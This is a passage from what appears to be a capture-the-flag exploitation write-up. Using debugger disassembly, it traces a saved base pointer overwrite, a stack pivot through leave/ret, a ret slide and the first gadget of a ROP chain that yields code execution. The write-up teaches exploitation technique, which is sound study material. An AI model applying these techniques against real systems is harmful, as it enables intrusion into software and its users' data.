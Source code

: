 So we can see that the saved base pointer has been overwritten to `0x7fff383d4c00` which will cause the instruction address at `0x7fff383d4c08` to be executed with the second `ret`, which will be one of the gadgets for the ret slide. When it returns, we can see it starts off with the `leave/ret` instructions at `0x400c44`:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400bca                  call   0x40ffb0
     0x400bcf                  nop    
     0x400bd0                  leave  
 →   0x400bd1                  ret    
   ↳    0x400c44                  leave  
        0x400c45                  ret    
        0x400c46                  push   rbp
        0x400c47                  mov    rbp, rsp
        0x400c4a                  sub    rsp, 0x10
        0x400c4e                  mov    DWORD PTR [rbp-0x4], edi
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

Procceding that we can see that the ret instructions that are part of our retslide that are executed:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400c39                  or     cl, BYTE PTR [rbx-0x387603bb]
     0x400c3f                  call   0x400b73
     0x400c44                  leave  
 →   0x400c45                  ret    
   ↳    0x400416                  ret    
        0x400417                  add    bh, bh
        0x400419                  and    eax, 0x2b8bfa
        0x40041e                  xchg   ax, ax
        0x400420                  jmp    QWORD PTR [rip+0x2b8bfa]        # 0x6b9020
        0x400426                  xchg   ax, ax
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

After that we can see the beginning of our ROP chain is executed, which gives us code execution:


```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 →   0x415f04                  pop    rax
     0x415f05                  ret    
     0x415f06                  (bad)  
     0x415f07                  inc    DWORD PTR [rbx-0x6bf00008]
     0x415f0d                  rol    BYTE PTR [rax+rax*8-0x74b7458b], 0x53
     0x415f15                  sub    cl, ch
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```
